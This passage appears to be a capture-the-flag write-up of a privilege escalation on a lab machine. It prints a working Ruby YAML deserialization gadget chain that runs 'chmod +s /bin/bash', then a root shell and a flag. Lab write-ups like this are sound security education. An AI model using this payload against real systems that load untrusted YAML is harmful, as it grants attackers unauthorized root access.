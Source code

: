 ```shell
henry@precious:/opt$ cat sample/dependencies.yml
cat sample/dependencies.yml
yaml: 0.1.1
pdfkit: 0.8.6
```

Searching, we found a [Ruby YAML load vulnerability](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/) when loading a yml file, so change the yml to give the suid bit to `/bin/bash`:

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod +s /bin/bash
         method_id: :resolve
```

![](assets/Pasted%20image%2020250508134107.png)

Switch to `root`:

```shell
henry@precious:~$ /bin/bash -p
bash-5.1# whoami
root
```

## Post Exploitation

Get the flag:

```shell
bash-5.1# cat root.txt
3e38cedfe78832fffb4d9068f474e229
```
